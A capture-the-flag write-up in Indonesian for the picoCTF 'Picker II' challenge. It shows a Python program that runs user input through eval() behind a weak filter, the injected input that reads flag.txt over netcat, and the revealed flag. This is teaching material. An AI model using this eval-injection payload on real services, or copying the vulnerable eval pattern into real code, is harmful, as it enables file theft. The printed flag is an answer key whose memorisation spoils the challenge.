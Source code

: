 <h1>Picker II</h1>
<h3>Description</h3>
<pre>
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 61648
The program's source code can be downloaded <a href='https://artifacts.picoctf.net/c/521/picker-II.py'>here</a>.
</pre>
<h3>Solution</h3>
<p>Tidak melalui fungsi win() karena filte, jadi input <strong>print(open('flag.txt','r').read())</strong> pada user_input yang akan di eksekusi oleh eval(), sederhananya</p>

```python3
def win():
    flag = open("flag.txt",'r').read()
    print(flag)

input_ = input("panggil flag : ")
if 'win' not in input_:
    eval(input_+'()')
else:
    print("filter")
```
<p>Solve</p>

```console
┌──(root㉿Python)-[/home/venom/Downloads]
└─# nc saturn.picoctf.net 61648
==> print(open('flag.txt','r').read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}
'NoneType' object is not callable
```
<h3>Flag</h3>
<pre>
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}
</pre>
